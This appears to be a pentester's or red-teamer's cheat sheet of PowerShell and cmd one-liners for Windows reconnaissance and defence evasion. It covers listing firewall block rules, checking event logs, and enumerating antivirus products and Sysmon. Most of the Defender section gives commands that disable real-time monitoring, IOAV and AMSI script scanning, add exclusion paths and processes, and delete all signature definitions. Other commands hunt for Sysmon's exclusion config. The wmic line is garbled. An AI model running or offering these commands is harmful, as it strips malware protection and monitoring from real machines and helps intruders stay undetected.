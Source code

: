 List all block ports by firewall
```powershell
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```


Eventlogs sometimes provide an insight into applications and services, security or otherwise
```powershell 
Get-EventLog -List
```

Windows Defender
```powershell 
Get-Service WinDefend
# Check Windows Defender Enabled but have
Get-MpComputerStatus | Select RealTimeProtectionEnabled 
Set-MpPreference -DisableRealtimeMonitoring $true

# Registry Key
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender

sc stop WinDefend
sc start WinDefend

# check status of Defender
PS C:\> Get-MpComputerStatus

# disable scanning all downloaded files and attachments, disable AMSI (reactive)
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true

# disable AMSI (set to 0 to enable)
PS C:\> Set-MpPreference -DisableScriptScanning 1 

# exclude a folder
PS C:\> Add-MpPreference -ExclusionPath "C:\Temp"
PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
PS C:\> Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"

# remove signatures (if Internet connection is present, they will be downloaded again):
PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

AV
```powershell
wmic / :\\ \  path antivirusproduct
Get-CimInstance -Namespace <name/space> -ClassName AntivirusProduct
```

Sysmon Enumeration
```powershell
Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
Get-Service | where-object {$_.DisplayName -like "*sysm*"}
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon\Operational
```
If you find Sysmon, find the config file.
```powershell
 findstr /si '<ProcessCreate onmatch="exclude">' C:\* # BEWARE recursive searching!
```
